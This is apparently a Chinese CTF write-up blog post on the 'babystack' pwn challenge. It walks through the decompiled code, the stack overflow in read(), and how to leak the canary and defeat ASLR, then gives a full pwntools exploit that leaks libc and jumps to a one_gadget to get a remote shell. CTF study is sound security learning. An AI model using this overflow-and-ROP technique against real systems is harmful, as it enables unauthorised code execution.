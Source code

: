 ```yaml
---
layout: post
title:  pwn1
date:   2020-09-28 00:01:01 +0300
image:  2020-09-28-piano.jpg
tags:   [ctf,Pwn,厦门邀请赛]
---
```


查看文件信息

![]({{site.baseurl}}/img/2020-09-28-check.jpg)

ida查看main函数

```assembly
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  char s; // [rsp+10h] [rbp-90h]
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x80uLL);
  while ( 1 )
  {
    sub_4008B9();
    v3 = sub_400841();
    switch ( v3 )
    {
      case 2:
        puts(&s);
        break;
      case 3:
        return 0LL;
      case 1:
        read(0, &s, 0x100uLL);
        break;
      default:
        sub_400826("invalid choice");
        break;
    }
    sub_400826((const char *)&unk_400AE7);
  }
}
```

memset为s变量分配空间。

case1中的read有明显的溢出漏洞可以利用。

查看sub_4008B9()函数

```assembly
__int64 sub_4008B9()
{
  sub_400826("--------");
  sub_400826("1.store");
  sub_400826("2.print");
  sub_400826("3.quit");
  sub_400826("--------");
  return sub_4007F7(">> ");
}
```

查看sub_400841()函数

```assembly
int sub_400841()
{
  char s; // [rsp+10h] [rbp-30h]
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&s, 0, 0x20uLL);
  if ( (signed int)read(0, &s, 0x20uLL) <= 0 )
    exit(1);
  return atoi(&s);
}
```

read读入选择执行的序号。

由于存在canary保护，需要先得到canary,

由于开启了ASLR，所以需要构造ROP链。

ASLR（地址随机化）是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的。但是，地址随机化不是对所有模块和内存区都进行随机化。虽然libc、栈、堆的加载位置被随机化，但主镜像不会。

通过puts()函数输出泄露得到puts函数在程序运行时的地址，从而计算出libc的基地址，进而计算出"/bin/sh"的地址。

在做题过程中遇到一个小问题，没有分清ljust()和rjust().

This function rjust returns a new string of specified length with right-justified source string. We can specify the character to use for the padding, the default is whitespace. If the specified length is smaller than the source string, then the source string is returned.

Python string ljust() is very similar to the rjust() function. The only difference is that the original string is left-justified. 

If you want center-aligned string then you can use Python String center() function.

-----------------------------------

!!!在这里我还不明白为什么每次sendlind（payload）之后，都要执行case 3来return 0LL。

------------------------------------------------

exp

```assembly
from pwn import *

io = remote("220.249.52.133",37853)

elf = ELF("babystack")
libc = ELF("libc-2.23.so")

io.sendlineafter(">> ","1")
payload = "A" * 0x88
io.sendline(payload)
io.sendlineafter(">> ","2")
io.recvuntil("A"*88+"\n")
canary = u64(io.recv(7).rjust(8,"\x00"))
print("canary->",hex(canary))

pop_rdi = 0x00400A93
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
# print("puts_got->",hex(puts_got))
# print("puts_plt->",hex(puts_plt))
main_addr = 0x00400908
payload1 = "A" * 0x88 + p64(canary) + p64(0x01314520) + p64(pop_rdi) + p64(puts_got)
payload1 += p64(puts_plt) + p64(main_addr)
#这里是调用puts_plt把puts_got的地址打印出来

io.sendlineafter(">> ","1")
io.sendline(payload1)
io.recv()
io.sendlineafter('>> ','3')
puts_addr = u64(io.recv(8).ljust(8,"\x00"))
print("puts_addr->",hex(puts_addr))
base = puts_addr - libc.symbols["puts"]
# print("base->",hex(base))
bin_sh_addr = base + 0x45216

payload2 = "A" * 0x88 + p64(canary) + p64(0x01314520) + p64(bin_sh_addr)
io.sendlineafter(">> ","1")
io.sendline(payload2)
io.sendlineafter('>> ','3')

io.interactive()
```


